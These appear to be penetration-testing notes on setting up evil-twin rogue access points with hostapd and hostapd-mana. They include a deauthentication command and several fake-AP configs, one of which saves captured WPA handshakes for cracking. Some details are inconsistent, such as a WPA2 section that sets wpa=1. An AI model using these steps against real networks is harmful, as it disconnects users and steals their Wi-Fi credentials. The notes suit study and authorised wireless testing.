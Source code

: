 ## Creating a Rogue AP
Evil twins can be in any channel, except if we clone the BSSID of the AP we want to impersonate, in which case the channel must be different. But APs with different BSSID and equal ESSID can coexist in the same channel.

If we get a connection in an evil twin, the connected client won't have internet access if we don't give him an IP with a dhcp server.

<font color=red>with hostapd, we need to be listening with airodump (on another wifi interface) at the same time that we host the fake ap, to capture handshakes of clients that try to connect to us, despite the PSK mismatch (since we don't know the real PSK but will crack it from their handshake to us)</font>

Deauth a client if he doesn't connect to our AP
``sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon``

### hostapd / hostapd-mana
hostapd-mana is an enhanced version of hostapd. Both are used for hosting fake APs, but mana includes more options to do things like dump passwords obtained from the handshake. Hostapd-mana can read hostapd config files, but also includes other options 

Install
```bash
sudo apt install hostapd-mana
sudo apt install hostapd-mana
```

Run
```bash
hostapd a.conf
hostapd-mana a.conf
```

Parameters: 
- ``driver=nl80211``  -> always the same for all linux devices
- ``hw_mode=g`` -> 2.4 GHz  y 54 Mb
- auth_algs (this is for WEP, for WPA use the equivalent ``wpa`` parameter-> 
	- ``auth_algs=0`` ->OPEN
	- ``auth_algs=1`` ->WEP
	- ``auth_algs=2`` -> Both
- ``wep_key0`` <- we can use up to 4
- Type of security
	- ``wpa=3`` -> activate both WPA and WPA2
	- ``wpa=2`` -> activate only WPA2
	- ``wpa=1`` -> activate only WPA

Type of authentication:
- ``wpa_key_mgmt=WPA-PSK``
- ``wpa_passphrase=<passphrase>`` -> passphrase in the case of PSK auth, we can set anything here, we don't care it's wrong

Encryption type (if the target is exclusiveliy WPA1 or WPA2 use just one of the following):
- ``wpa_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WAP1
- ``rsn_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WPA2

- ``mana_wpaout``-> where to save the captured handshakes (in a Hashcat hccapx format). 

#### hostap with  no encryption
```
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
```

#### hostap with wep
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
```

#### hostap with WPA-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
```

#### hostap with WPA2-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup

# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

alternative
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211

ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

#### Hosting several APs
Two different ESSIDs with the same wifi antenna (interface wlan1). With hostap, if we want to simulate several ESSIDs, the first one must use the keyword "interface" and the real interface name, and the next ones use the keyword "bss" and we use fictitious names, like wlan1_0. This can be used if a client probes different clients.
```
# SSID 1
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

# SSID 2
bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```


```
interface=wlan0
ssid=<ESSID>
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/output.hccapx
```
